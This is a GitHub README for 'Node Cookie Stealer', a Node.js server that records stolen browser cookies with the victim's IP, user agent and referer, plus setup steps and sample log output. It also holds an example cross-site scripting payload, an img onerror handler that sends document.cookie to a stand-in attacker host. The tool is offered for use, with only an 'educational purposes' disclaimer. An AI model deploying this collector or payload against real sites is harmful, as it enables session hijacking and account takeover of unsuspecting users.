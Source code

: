 # Node Cookie Stealer

## Usage
1. Clone Project
```
git clone https://github.com/TheWation/NodeCookieStealer
```

2. Install Node.js on your machine if you haven't already. You can download the latest version of Node.js from the official website: https://nodejs.org/en/download/

3. Create a new directory for your project and navigate into it using a terminal or command prompt.

4. Create a new file called app.js and copy the Node.js code into it.

5. Open a terminal or command prompt in the project directory and run the following command to install the required dependencies:

```bash
npm install express luxon
```
Run the following command to start the server:
```bash
node app.js
```
In your web browser, visit http://localhost:3000/c/your-cookie-value, replacing your-cookie-value with the value of the cookie that you want to log. For example, if the cookie value is ABC123, you would visit http://localhost:3000/c/ABC123.

The server will log the date and time, client IP address, user agent, referer, and cookie value to the cookies.txt file in the project directory.
```
[+] Date: 2022/10/03 15:30:45
[+] IP: 127.0.0.1
[+] UserAgent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/94.0.4606.71 Safari/537.36
[+] Referer: http://localhost:3000/
[+] Cookies: ABC123
---
```
The server will also return a response with a status code of 200 if the request was successful, or a status code of 500 if there was an error writing to the file.

You can repeat step 6 with different cookie values to log additional data to the file.

To stop the server, press CTRL+C in the terminal where it is running.

## Example Payload
```
https://pentest.target/?name=<img src=x onerror=this.src='http://evil-website.com/input.php?cookie='+document.cookie>
```

## Disclaimer
For educational purposes only. Do not use for illegal activities. Use at your own risk. By using this tool, you agree to comply with all applicable laws and regulations. Unauthorized use is strictly prohibited. Always obtain permission before using this tool. No warranties.

## License

`WebSecurityVision` is made with ♥  by [Wation](https://github.com/TheWation) and it's released under the MIT license.
